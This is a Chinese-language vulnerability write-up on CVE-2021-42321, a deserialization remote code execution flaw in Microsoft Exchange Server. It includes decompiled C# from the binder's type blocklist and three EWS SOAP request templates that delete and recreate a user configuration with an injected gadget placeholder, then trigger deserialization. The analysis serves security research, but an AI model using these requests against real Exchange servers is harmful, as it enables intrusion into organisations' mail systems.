








# CVE-2021-42321 Exchange Server Auth RCE

## 影响版本

```
Exchange Server 2016 CU21
Exchange Server 2016 CU22
Exchange Server 2019 CU10
Exchange Server 2019 CU11
```

## 漏洞分析

漏洞主要存在于`Microsoft.Exchange.Compliance.Serialization.Formatters.TypedBinaryFormatter`



在反序列化的时候，调用`Deserizlize`函数

```csharp
private static object Deserialize(Stream serializationStream, SerializationBinder binder)
{
    return ExchangeBinaryFormatterFactory.CreateBinaryFormatter(DeserializeLocation.ComplianceFormatter, false, TypedBinaryFormatter.allowedTypes, TypedBinaryFormatter.allowedGenerics).Deserialize(serializationStream);
}
```

该函数会创建一个`CreateBinaryFormatter`来进行自定义反序列化

```csharp
public static BinaryFormatter CreateBinaryFormatter(DeserializeLocation usageLocation, bool strictMode = false, string[] allowList = null, string[] allowedGenerics = null)
{
    return new BinaryFormatter
    {
        Binder = new ChainedSerializationBinder(usageLocation, strictMode, allowList, allowedGenerics)
    };
}
```

此时传入了4个参数给`ChainedSerializationBinder`，部分参数对应的值如下：

```
strictMode  = False
allowList = TypedBinaryFormatter.allowedTypes
allowedGenerics = allowedGenerics
```

接着会在`ChainedSerializationBinder`中调用`BindToType`函数对反序列化数据进行处理

```csharp
public override Type BindToType(string assemblyName, string typeName)
{
    if (this.serializationOnly)
    {
        throw new InvalidOperationException("ChainedSerializationBinder was created for serialization only.  This instance cannot be used for deserialization.");
    }
    Type type = this.InternalBindToType(assemblyName, typeName);
    if (type != null)
    {
        this.ValidateTypeToDeserialize(type);
    }
    return type;
}
```

其中函数`ValidateTypeToDeserialize`对反序列化的类型做了验证处理

```csharp
protected void ValidateTypeToDeserialize(Type typeToDeserialize)
{
    if (typeToDeserialize == null)
    {
        return;
    }
    string fullName = typeToDeserialize.FullName;
    bool flag = this.strictMode;
    try
    {
        if (!this.strictMode && (this.allowedTypesForDeserialization == null || !this.allowedTypesForDeserialization.Contains(fullName)) && ChainedSerializationBinder.GlobalDisallowedTypesForDeserialization.Contains(fullName))      // 1
        {
            flag = true;
            throw new InvalidOperationException(string.Format("Type {0} failed deserialization (BlockList).", fullName));
        }
        if (typeToDeserialize.IsConstructedGenericType)
        {
            fullName = typeToDeserialize.GetGenericTypeDefinition().FullName;
            if (this.allowedGenericsForDeserialization == null || !this.allowedGenericsForDeserialization.Contains(fullName) || ChainedSerializationBinder.GlobalDisallowedGenericsForDeserialization.Contains(fullName))
            {
                throw new BlockedDeserializeTypeException(fullName, BlockedDeserializeTypeException.BlockReason.NotInAllow, this.location);
            }
        }
        else if (!ChainedSerializationBinder.AlwaysAllowedPrimitives.Contains(fullName) && (this.allowedTypesForDeserialization == null || !this.allowedTypesForDeserialization.Contains(fullName) || ChainedSerializationBinder.GlobalDisallowedTypesForDeserialization.Contains(fullName)))
        {
            if (!typeToDeserialize.IsArray && !typeToDeserialize.IsEnum && !typeToDeserialize.IsAbstract && !typeToDeserialize.IsInterface)
            {
                throw new BlockedDeserializeTypeException(fullName, BlockedDeserializeTypeException.BlockReason.NotInAllow, this.location);
            }
        }
    }
    catch (BlockedDeserializeTypeException ex)      //2
    {
        DeserializationTypeLogger.Singleton.Log(ex.TypeName, ex.Reason, this.location, (flag || this.strictMode) ? DeserializationTypeLogger.BlockStatus.TrulyBlocked : DeserializationTypeLogger.BlockStatus.WouldBeBlocked);
        if (flag)
        {
            throw;
        }
    }
}
```

这个函数在`1`处，首先会判断类型是否是允许反序列化的类型，同时判断是否是禁止反序列化的类型，如果是则抛出`InvalidOperationException`异常，但是这个函数没有捕获`InvalidOperationException`异常。所以如果在`1`处出现错误，`Exchange`则会发生报错，导致函数崩溃。

在函数`2`处，会捕获`BlockedDeserializeTypeException`类型的异常，在`flag`为`True`时候，才会抛出异常。但是在上面的分析中，已经得知`flag`默认为`False`，所以该异常不会导致函数崩溃。

接着分析`Exchange`禁止反序列化的黑名单 `GlobalDisallowedTypesForDeserialization`，可以看到在`System.Security.Claims.ClaimsPrincipal`类型上开发人员写错了，同时也没有禁止`TypeConfusedDelegate`这条利用链。




现在我们来找一下如何传入反序列化的数据



跟入`ClientExtensionCollectionFormatter`的接口



在这个函数中，我们可以得到传入反序列化的数据




通过官方文档可以找到通过`ews`接口我们可以使用`CreateUserConfiguration`方法创建用户配置。

同时在`ews`的`Microsoft.Exchange.Services.Core.Types`中我们可以得到`ServiceUserConfiguration`的成员信息是存在`BinaryData`的。

```csharp
[XmlType(TypeName = "UserConfigurationType", Namespace = "http://schemas.microsoft.com/exchange/services/2006/types")]
[DataContract(Namespace = "http://schemas.datacontract.org/2004/07/Exchange")]
[Serializable]
public class ServiceUserConfiguration
```


而`ServiceUserConfiguration`会被函数`Microsoft.Exchange.Services.Core.CreateUserConfiguration.Execute() : ServiceResult<ServiceResultNone> @060029E0`所调用

```csharp
internal override ServiceResult<ServiceResultNone> Execute()
{
    UserConfigurationCommandBase<CreateUserConfigurationRequest, ServiceResultNone>.ValidatePropertiesForUpdate(this.serviceUserConfiguration);
    using (UserConfiguration userConfiguration = CreateUserConfiguration.CreateInstance(base.GetUserConfigurationName(this.serviceUserConfiguration.UserConfigurationName)))
    {
        UserConfigurationCommandBase<CreateUserConfigurationRequest, ServiceResultNone>.SetProperties(this.serviceUserConfiguration, userConfiguration);
        userConfiguration.Save();
    }
    return new ServiceResult<ServiceResultNone>(new ServiceResultNone(), ServiceResultCode.Success);
}

...
...

protected static void SetProperties(ServiceUserConfiguration serviceUserConfiguration, UserConfiguration userConfiguration)
{
  UserConfigurationCommandBase<TRequestType, SingleItemType>.SetDictionary(serviceUserConfiguration, userConfiguration);
  UserConfigurationCommandBase<TRequestType, SingleItemType>.SetXmlStream(serviceUserConfiguration, userConfiguration);
  UserConfigurationCommandBase<TRequestType, SingleItemType>.SetStream(serviceUserConfiguration, userConfiguration);
}
```

该函数内部调用`UserConfigurationCommandBase.SetProperties`来设置属性，最后调用到`UserConfigurationCommandBase.SetStream`来设置`BinaryData`数据

```csharp
private static void SetStream(ServiceUserConfiguration serviceUserConfiguration, UserConfiguration userConfiguration)
{
    if (serviceUserConfiguration.BinaryData == null)
    {
        return;
    }
    using (Stream stream = UserConfigurationCommandBase<TRequestType, SingleItemType>.GetStream(userConfiguration))
    {
        UserConfigurationCommandBase<TRequestType, SingleItemType>.SetStreamPropertyFromBase64String(serviceUserConfiguration.BinaryData, stream, CoreResources.IDs.ErrorInvalidValueForPropertyBinaryData);
    }
}
```

现在我们可以把`serviceUserConfiguration`的数据设置成反序列化的数据了，那么下一步就是要找到如何去触发反序列化。经过分析可以得到如下所示的调用栈



最终可以通过`ews`的`GetClientAccessToken`操作来触发反序列化。

## 漏洞利用

在构造`CreateUserConfiguration`请求数据`xml`文件的时候，需要注意对于`inbox`文件夹，在获取用户配置的时候，默认读取的是名为`ExtensionMasterTable`的配置信息，而原来的默认配置下文件夹`OrgDO`的值为`True`，所以在接下来的流程中不会进行反序列化。



所以我们构造`xml`数据的时候，把`OrgDO`设置为`False`即可。




首先需要删除默认的配置信息
```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Header>
    <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
    <m:DeleteUserConfiguration>
        <m:UserConfigurationName Name="ExtensionMasterTable">
        <t:FolderId Id="{folderId}" ChangeKey="{changeKey}" />
        </m:UserConfigurationName>
    </m:DeleteUserConfiguration>
    </soap:Body>
</soap:Envelope>
```

然后创建一个新的配置信息，并且把`OrgDO`设置为`Fasle`
```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Header>
    <t:RequestServerVersion Version="Exchange2013" />
  </soap:Header>
  <soap:Body>
    <m:CreateUserConfiguration>
      <m:UserConfiguration>
        <t:UserConfigurationName Name="ExtensionMasterTable">
          <t:FolderId Id="{folderId}" ChangeKey="{changeKey}" />
        </t:UserConfigurationName>
          <t:Dictionary>
          <t:DictionaryEntry>
          <t:DictionaryKey>
            <t:Type>String</t:Type>
            <t:Value>OrgChkTm</t:Value>
          </t:DictionaryKey>
          <t:DictionaryValue>
            <t:Type>Integer64</t:Type>
            <t:Value>637728170914745525</t:Value>
          </t:DictionaryValue>
          </t:DictionaryEntry>
          <t:DictionaryEntry>
          <t:DictionaryKey>
            <t:Type>String</t:Type>
            <t:Value>OrgDO</t:Value>
          </t:DictionaryKey>
          <t:DictionaryValue>
            <t:Type>Boolean</t:Type>
            <t:Value>false</t:Value>
          </t:DictionaryValue>
          </t:DictionaryEntry>
          <t:DictionaryEntry>
          <t:DictionaryKey>
            <t:Type>String</t:Type>
            <t:Value>OrgExtV</t:Value>
          </t:DictionaryKey>
          <t:DictionaryValue>
            <t:Type>Integer32</t:Type>
            <t:Value>2147483647</t:Value>
          </t:DictionaryValue>
          </t:DictionaryEntry>
        </t:Dictionary>
        <t:BinaryData>{gadget}</t:BinaryData>
      </m:UserConfiguration>  
    </m:CreateUserConfiguration>
  </soap:Body>
</soap:Envelope>
```

最后使用`GetClientAccessToken`来触发漏洞
```
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
   <soap:Header>
      <t:RequestServerVersion Version="Exchange2013" />
   </soap:Header>
   <soap:Body >
      <m:GetClientAccessToken>
         <m:TokenRequests>
            <t:TokenRequest>
               <t:Id>aaa</t:Id>
               <t:TokenType>CallerIdentity</t:TokenType>
            </t:TokenRequest>
         </m:TokenRequests>
      </m:GetClientAccessToken>
   </soap:Body>
</soap:Envelope>
```


## 参考链接

[https://peterjson.medium.com/some-notes-about-microsoft-exchange-deserialization-rce-cve-2021-42321-110d04e8852](https://peterjson.medium.com/some-notes-about-microsoft-exchange-deserialization-rce-cve-2021-42321-110d04e8852)


[https://github.com/DarkSprings/CVE-2021-42321/blob/main/CVE-2021-42321_poc.py](https://github.com/DarkSprings/CVE-2021-42321/blob/main/CVE-2021-42321_poc.py)